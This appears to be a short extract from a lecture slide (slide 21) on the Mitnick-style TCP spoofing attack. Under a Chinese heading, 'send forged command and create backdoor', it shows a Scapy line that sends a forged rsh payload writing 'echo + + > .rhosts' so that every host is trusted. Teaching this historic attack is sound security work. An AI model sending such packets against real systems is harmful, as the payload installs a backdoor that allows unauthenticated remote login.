

# 发送伪造指令并创建后门
#:echo + + > .rhosts
data = ’9090\x00seed\x00seed\x00echo + + > .rhosts\x00’
send(IP()/TCP()/data, verbose=0)
21